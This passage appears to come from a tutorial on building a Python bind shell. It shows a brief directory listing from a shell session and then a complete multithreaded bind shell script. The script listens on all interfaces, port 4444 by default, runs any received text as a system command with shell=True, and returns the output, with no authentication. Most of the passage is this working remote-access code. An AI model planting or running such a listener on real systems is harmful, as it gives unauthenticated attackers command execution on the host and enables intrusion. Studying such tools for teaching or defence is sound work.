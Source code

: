 ```shell

20-03-2021  21:22    <DIR>          .
20-03-2021  21:22    <DIR>          ..
20-03-2021  21:22               929 bindshell.py
               1 File(s)            929 bytes
               2 Dir(s)  518.099.636.224 bytes free
exit
```

By simply extracting the code that handles command execution to its function, it is possible to make the bind shell first listen for a new connection, spawn a thread for that connection that handles command execution, and finally start over listening to new incoming connections.

```python
import socket
import subprocess
import click
from threading import Thread

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

def handle_input(client_socket):
    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)

    while True:
        client_socket, _ = s.accept()
        t = Thread(target=handle_input, args=(client_socket, ))
        t.start()

if __name__ == '__main__':
    main()
```
